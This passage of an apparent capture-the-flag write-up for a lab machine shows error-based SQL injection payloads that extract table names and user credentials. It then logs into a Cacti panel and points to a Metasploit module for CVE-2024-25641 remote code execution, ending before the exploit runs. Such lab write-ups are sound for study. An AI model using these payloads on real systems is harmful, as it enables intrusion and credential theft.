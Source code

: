 `admin' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())))#`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117160454.png)

We need to use `substring` due to the error limit, we need to intercept it:

`admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(table_name),40,30) FROM information_schema.tables WHERE table_schema=database())))#`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117160547.png)

Found an users table, let's check it out:

`admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(column_name),1,30) FROM information_schema.columns WHERE table_name='users')))#`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117160631.png)

Right here, we can obtain the username and the password, let's use this payload:

`admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(username,':',password),1,30) FROM users)))#`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117160713.png)


We got the following: `admin：31a181c8372e3afc59dab863430610e8`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117160754.png)


Nice, we got credentials:

```ad-note
`admin`:`greencacti2001`
```

We can now log into the `cacti.monitorsthree.htb` panel:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117160918.png)

Since we got access, we need a way to get a shell, let's look up internet and check any way to perform this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117161104.png)

Found `CVE-2024-25641`, which talks about RCE in cacti 1.2.26 when authenticated, we can find an exploit in `metasploit`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117161259.png)

We need to use `exploit/multi/http/cacti_package_import_rce`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250117161401.png)

Set options and send exploit:
